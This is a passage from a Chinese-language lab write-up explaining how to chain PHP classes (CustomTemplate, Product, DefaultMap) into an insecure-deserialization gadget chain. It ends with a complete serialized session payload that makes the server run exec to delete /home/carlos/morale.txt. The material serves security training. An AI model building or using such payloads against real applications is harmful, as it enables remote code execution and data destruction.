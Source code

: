 [![](https://p0.ssl.qhimg.com/t019ffdc2f66ad07c9f.png)](https://p0.ssl.qhimg.com/t019ffdc2f66ad07c9f.png)

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA2%EF%BC%9A%E6%9E%84%E9%80%A0%E8%87%AA%E5%AE%9A%E4%B9%89PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7%E9%93%BE"></a>配套靶场2：构造自定义PHP反序列化工具链

同样的，我们通过sitemap还原一下可疑文件

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018d31c9c88fc4c9d0.png)

从源码来看，如果我们想构造exec(rm /home/carlos/morale.txt)需要构造一条工具链，下面我们慢慢地来分析，首先我们关注一下这段代码

```
private function build_product() `{`
        $this-&gt;product = new Product($this-&gt;default_desc_type, $this-&gt;desc);
    `}`
```

这是CustomTemplate类的build_product()方法，它会new一个Product对象，下面我们再看一下Product类

```
class Product `{`
    public $desc;

    public function __construct($default_desc_type, $desc) `{`
        $this-&gt;desc = $desc-&gt;$default_desc_type;
    `}`
`}`
```

我们看到Product类中有个在实例化会自动调用的魔术方法__construct，在实例化的时候可以指定两个参数：default_desc_type和desc，并且会将default_desc_type传递给desc调用。很明显，default_desc_type值应该是”rm /home/carlos/morale.txt”，那么desc就得是exec函数，但是我们不能直接将其值设置为”exec”，是没有效果的。我们再来看DefaultMap类

```
class DefaultMap `{`
    private $callback;

    public function __construct($callback) `{`
        $this-&gt;callback = $callback;
    `}`

    public function __get($name) `{`
        return call_user_func($this-&gt;callback, $name);
    `}`
`}`
```

里面有两个魔术方法，我们重点关注__get这个魔术方法，它会调用该对象的callback属性值指定的函数，这就是我们想要的，所以desc的值应该是一个含有值为”exec”属性callback的DefaultMap实例化对象。于是我们这样构造序列化payload<br>`O:14:"CustomTemplate":2:`{`s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:`{`s:8:"callback";s:4:"exec";`}``}``<br>
替换到session以后就会触发我们构造的工具链，从而执行删除指定文件的命令了。
